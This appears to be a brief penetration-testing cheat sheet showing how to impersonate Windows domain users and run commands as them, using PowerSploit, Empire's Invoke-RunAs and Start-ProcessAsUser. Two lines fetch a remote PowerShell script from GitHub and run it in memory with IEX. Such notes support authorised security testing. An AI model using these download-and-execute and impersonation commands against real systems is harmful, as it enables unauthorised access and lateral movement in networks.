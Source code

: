 # Scripts

## PowerSploit

```powershell
$username = "<DOMAIN>\<username>"
$password = "<password>"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential($username, $securePassword)
Invoke-UserImpersonation -Credential $credential
# To revert back to original privileged access
Invoke-RevertToSelf
```

## Invoke-RunAs

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-RunAs.ps1')

PS C:\> Invoke-RunAs -UserName "<username>" -Password "<password>" -Domain "<DOMAIN>" -Cmd <command> [-Arguments "<arguments>"]
```

## Start-ProcessAsUser

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Start-ProcessAsUser.ps1')

PS C:\> Start-ProcessAsUser -Domain <domain>.<tld> "<username>" -Password "<password>" -Domain "<DOMAIN>" -Cmd "<command> [arguments]" -NetOnly
```

---
## References

- [Hacktricks: PowerView](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)

- [Pentester's Promiscous Notebook: RunAs](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas)